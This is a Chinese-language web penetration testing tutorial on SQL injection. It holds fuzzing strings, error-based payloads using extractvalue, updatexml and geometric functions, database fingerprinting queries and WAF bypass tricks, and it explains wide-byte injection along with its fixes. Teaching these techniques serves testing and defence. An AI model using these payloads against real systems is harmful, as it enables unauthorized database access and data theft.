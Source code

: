 # WEB安全渗透测试基础知识（五）

**3.1 SQL注入漏洞**

3.1.1. 注入分类
SQL注入是一种代码注入技术，用于攻击数据驱动的应用程序。在应用程序中，如果没有做恰当的过滤，则可能使得恶意的SQL语句被插入输入字段中执行（例如将数据库内容转储给攻击者）。
3.1.1.1. 按技巧分类
根据使用的技巧，SQL注入类型可分为  
- 盲注
布尔盲注：只能从应用返回中推断语句执行后的布尔值
时间盲注：应用没有明确的回显，只能使用特定的时间函数来判断
- 报错注入：应用会显示全部或者部分的报错信息
- 堆叠注入：有的应用可以加入 ; 后一次执行多条语句
- 其他


3.1.1.2. 按获取数据的方式分类

另外也可以根据获取数据的方式分为3类  
- inband
利用Web应用来直接获取数据
如报错注入
都是通过站点的响应或者错误反馈来提取数据
- inference
通过Web的一些反映来推断数据
如布尔盲注和堆叠注入
也就是我们通俗的盲注，
通过web应用的其他改变来推断数据
- out of band(OOB)
通过其他传输方式来获得数据，比如DNS解析协议和电子邮件

------------

3.1.2. 注入检测

3.1.2.1. 常见的注入点

- GET/POST/PUT/DELETE参数
- X-Forwarded-For
- 文件名

3.1.2.2. Fuzz注入点
- ' / "
- 1/1
- 1/0
- and 1=1
- " and "1"="1
- and 1=2
- or 1=1
- or 1=
- ' and '1'='1
- + - ^ * % /
- << >> || | & &&
- ~
- !
- @
- 反引号执行

3.1.2.3. 测试用常量
- @@version
- @@servername
- @@language
- @@spid

3.1.2.4. 测试列数
例如 http://www.foo.com/index.asp?id=12+union+select+nulll,null-- ，不断增加 null 至不返回

3.1.2.5. 报错注入
- select 1/0
- select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from  information_schema.tables group by x)a
- extractvalue(1, concat(0x5c,(select user())))
- updatexml(0x3a,concat(1,(select user())),1)
- exp(~(SELECT * from(select user())a))
- ST_LatFromGeoHash((select * from(select * from(select user())a)b))
- GTID_SUBSET(version(), 1)

3.1.2.5.1. 基于geometric的报错注入
- GeometryCollection((select * from (select * from(select user())a)b))
- polygon((select * from(select * from(select user())a)b))
- multipoint((select * from(select * from(select user())a)b))
- multilinestring((select * from(select * from(select user())a)b))
- LINESTRING((select * from(select * from(select user())a)b))
- multipolygon((select * from(select * from(select user())a)b))

其中需要注意的是，基于exp函数的报错注入在MySQL 5.5.49后的版本已经不再生效，具体可以参考这个 commit 95825f 。
而以上列表中基于geometric的报错注入在这个 commit 5caea4 中被修复，在5.5.x较后的版本中同样不再生效。

3.1.2.6. 堆叠注入
- ;select 1

3.1.2.7. 注释符
- #
- --+
- /*xxx*/
- /*!xxx*/
- /*!50000xxx*/

3.1.2.8. 判断过滤规则
- 是否有trunc
- 是否过滤某个字符
- 是否过滤关键字
- slash和编码

3.1.2.9. 获取信息
- 判断数据库类型
and exists (select * from msysobjects ) > 0 access数据库
and exists (select * from sysobjects ) > 0 SQLServer数据库
- 判断数据库表
and exsits (select * from admin)
- 版本、主机名、用户名、库名
- 表和字段
确定字段数（Order By Select Into）
表名、列名

3.1.2.10. 测试权限
- 文件操作
读敏感文件
写shell
- 带外通道
网络请求


------------

3.1.3. 权限提升

3.1.3.1. UDF提权

UDF（User Defined Function，用户自定义函数）是MySQL提供的一个功能，可以通过编写DLL扩展为MySQL添加新函数，扩充其功能。  
当获得MySQL权限之后，即可通过这种方式上传自定义的扩展文件，从MySQL中执行系统命令。

------------

3.1.4. 数据库检测

3.1.4.1. MySQL

- sleep sleep(1)
- benchmark BENCHMARK(5000000, MD5('test'))
- 字符串连接
SELECT 'a' 'b'
SELECT CONCAT('some','string')
- version
SELECT @@version
SELECT version()
- 识别用函数
connection_id()
last_insert_id()
row_count()


3.1.4.2. Oracle

- 字符串连接
'a'||'oracle' --
-SELECT CONCAT('some','string')
- version
SELECT banner FROM v$version
SELECT banner FROM v$version WHERE rownum=1

3.1.4.3. SQLServer

- WAITFOR WAITFOR DELAY '00:00:10';
- SERVERNAME SELECT @@SERVERNAME
- version SELECT @@version
字符串连接
SELECT 'some'+'string'
- 常量
@@pack_received
@@rowcount

3.1.4.4. PostgreSQL
- sleep pg_sleep(1)


------------

3.1.5. 绕过技巧

- 编码绕过
大小写
url编码
html编码
十六进制编码
unicode编码
- 注释
// -- -- + -- - # /**/ ;%00
内联注释用的更多，它有一个特性 /!**/ 只有MySQL能识别
e.g. index.php?id=-1 /*!UNION*/ /*!SELECT*/ 1,2,3
- 只过滤了一次时
union => ununionion
- 相同功能替换
- 函数替换
substring / mid / sub
ascii / hex / bin
benchmark / sleep
- 变量替换
user() / @@user
- 符号和关键字
and / &
or / |
- HTTP参数
HTTP参数污染
id=1&id=2&id=3 根据容器不同会有不同的结果
HTTP分割注入
- 缓冲区溢出
一些C语言的WAF处理的字符串长度有限，超出某个长度后的payload可能不会被处理
- 二次注入有长度限制时，通过多句执行的方法改掉数据库该字段的长度绕过


------------

3.1.6. SQL注入小技巧

3.1.6.1. 宽字节注入

一般程序员用gbk编码做开发的时候，会用 set names 'gbk' 来设定，这句话等同于
set 
character_set_connection = 'gbk', 
character_set_result = 'gbk', 
character_set_client = 'gbk';

漏洞发生的原因是执行了 set character_set_client = 'gbk'; 之后，mysql就会认为客户端传过来的数据是gbk编码的，从而使用gbk去解码，而mysql_real_escape是在解码前执行的。但是直接用 set names 'gbk' 的话real_escape是不知道设置的数据的编码的，就会加 %5c 。此时server拿到数据解码 就认为提交的字符+%5c是gbk的一个字符，这样就产生漏洞了。

解决的办法有三种，第一种是把client的charset设置为binary，就不会做一次解码的操作。第二种是是 mysql_set_charset('gbk') ，这里就会把编码的信息保存在和数据库的连接里面，就不会出现这个问题了。第三种就是用pdo。

还有一些其他的编码技巧，比如latin会弃掉无效的unicode，那么admin%32在代码里面不等于admin，在数据库比较会等于admin。


------------



